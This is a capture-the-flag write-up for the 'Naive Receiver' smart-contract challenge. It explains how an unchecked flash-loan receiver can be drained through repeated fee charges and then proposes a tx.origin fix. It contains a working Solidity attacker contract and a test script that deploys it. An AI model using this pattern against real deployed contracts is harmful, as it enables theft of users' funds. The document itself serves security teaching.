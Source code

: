 # Naive Receiver

## Challenge

There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

## Solution

Our goal is to drain all funds from the `FlashLoanReceiver` contract. We observe that the only place this contract sends funds to an external account is within the `receiveEther` function.

```solidity
function receiveEther(uint256 fee) public payable {
    require(msg.sender == pool, "Sender must be pool");

    uint256 amountToBeRepaid = msg.value + fee;

    require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");

    _executeActionDuringFlashLoan();

    // Return funds to pool
    pool.sendValue(amountToBeRepaid);
}
```

The first `require` makes this function only callable by the lending pool. This seems like putting trust on the lending pool, however we will see that is not the case. Let us have a look at the signature of the `flashLoan` function in the `NaiveReceiverLenderPool` contract

```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant
```

When calling this function from an external source and passing the borrower parameter to be the addess of `FlashLoanReceiver`, the following function will be executed

```solidity
borrower.functionCallWithValue(
    abi.encodeWithSignature(
        "receiveEther(uint256)",
        FIXED_FEE
    ),
    borrowAmount
);
```

In this context, even if the external actor makes this function to execute, `msg.sender` is the lending pool itself. Therefore `receiveEther` will execute without any issues.

This is exactly where the vulnerability can be exploited. Making an external call to the `flashLoan` function will force the `FlashLoanReceiver` contract to pay the fee for the loan. If we are able to call 10 times this `flashLoan` function, all funds of `FlashLoanReceiver` will be transferred to `NaiveReceiverLenderPool`. In order to do so in one transaction, we will deploy an `AttackerNaiveReceiver` contract.

### Attacker contract

We first create an interface to interact with the lender contract as follows

```solidity
interface ILenderPool{
    function flashLoan(address borrower, uint256 borrowAmount) external;
}
```

Then we create the attacker contract with a function that will execute 10 times in a row a flashloan for only 1 ether, each time getting 1 ether in fees being transferred to the `NaiveReceiverLenderPool` contract

```solidity
contract AttackerNaiveReceiver {
    function attack(address _lenderPool, address _naiveReceiver) public {
        for (uint i = 0; i < 10; i++) {
            ILenderPool(_lenderPool).flashLoan(_naiveReceiver, 1 ether);
        }
    }
}
```

This contract is stored in [this file](./AttackerNaiveReceiver.sol).

### Deployment Script

The only thing we need to do now is to deploy the attacker contract and pass the address of both the lending and the receiver contracts. We complete the code in [`naive-receiver.challenge.js`](../../test/naive-receiver/naive-receiver.challenge.js) as follows

```javascript
it("Exploit", async function () {
  /** CODE YOUR EXPLOIT HERE */
  const Attacker = await ethers.getContractFactory(
    "AttackerNaiveReceiver",
    attacker
  )
  attackerContract = await Attacker.deploy()
  await attackerContract.attack(this.pool.address, this.receiver.address)
})
```

## Solving the issue with `tx.origin`

We have seen that we should not always trust `msg.sender`. In order to solve the issue we need to make sure that the only user that can call the `flashLoan` function from the receiver contract is an address under the control of the receiver. We could store this address in the receiver contract as `admin` and add the following line after the first `require` in `receiveEther`

```solidity
require(tx.origin == admin, 'Only admin can initiate a flashLoan')
```

The parameter `tx.origin` corresponds to the address that initiate the transaction, and therefore the attack we perform before would not work from an arbitrary address. Special attention is needed in this case, because transactions initiated by the admin account are subject to be routed by malicious smart contracts in order to execute the `flashLoan` function.
